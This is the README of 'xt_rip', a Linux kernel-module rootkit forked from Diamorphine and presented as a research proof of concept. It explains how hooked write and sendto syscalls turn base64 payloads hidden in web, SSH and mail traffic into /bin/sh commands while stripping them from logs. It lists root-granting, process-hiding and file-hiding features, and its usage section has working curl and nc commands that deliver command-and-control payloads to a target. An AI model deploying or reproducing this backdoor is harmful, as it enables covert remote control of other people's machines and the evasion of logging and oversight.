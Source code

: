 # DISCLAIMER
## This is a POC
This is a **research project**, which has been made by a noobist in C, LKM and low-level stuff in general. If it's not clear enough yet : this source code is more likely to be full of mistakes in terms of memory management, compliance to LKM or POSIX APIs.

**DO NOT use this tool** on production servers and without the prior consent from the owner of the system, as you may very probably damage the system.

If you're ever so bold to try and use this in the wild, you do it **at your own risks, understanding your responsibilities**.

**The authors of this source code CANNOT be held responsible for any damage caused by the use of this research project.**

# xt_rip LKM rootkit
This rootkit is an attempt to use `write` and `sendto` syscalls as input vectors for a remote backdoor.

## Credits
This project is forked from m0nad's awesome Diamorphine, and it's also been the most helpful piece of clue I had to develop my own features. If you don't know this project yet, go check it out, it is fascinating.

This project is titled differently because its a different project, with lower quality expectations, lower stability etc - seriously, don't use this thing.

## How it works
A lot of user-provided and unsafe data gets processed through `write` and `sendto` syscalls since they are used to log connections to web server, failed ssh connections etc.

The module replaces the original syscalls by our own functions which looks for a pattern, extract it so it can be parsed as a C&C command, and strips it from the original buffer so it (hopefully) does not appear anywhere in the logs.

## Features
- [x] All features from Diamorphine
    - [x] Hide process with `kill -31 $PID`
    - [x] Hide LKM with `kill -63 1`
    - [x] Give root with `kill -64 1`
    - [x] Hide files and dirs with name matchin prefix
- [x] Hook `write` and `sendto`
    - [x] Read and strip payload from given userland buffer
    - [x] Decode base64 payload
    - [x] Pass payload to /bin/sh
    - [x] Hide generated process
    - [ ] Add mandatory checksum to payload
- [ ] Hide arbitrary network connection (http://books.gigatux.nl/mirror/networksecuritytools/0596007949/networkst-CHP-7-SECT-4.html)

## Usage
```sh
## On the target
# Install dependencies (apt only), build
# and install module
make

## From the C&C
# Store marker
$ export XTRIP_MARKER=8231061ecdb0740331d2

# Generate payload
$ ./client 'id > /tmp/id'
8231061ecdb0740331d2AwqGpIaVDg1Wl2LK8231061ecdb0740331d2

# Generate payload and send it to target
# through HTTP on port 80
$ ./client 'id > /tmp/id' $TARGET

# Manually send payload to web server
# on port 443
$ curl -skA"$(./client 'id > /tmp/id')" https://$TARGET/

# Send payload to SSH on port 22
$ echo "$(./client 'id > /tmp/id')" | nc $TARGET 22

# Send payload to Exim4 on port 25
$ echo "$(./client 'id > /tmp/id')" | nc $TARGET 25
```
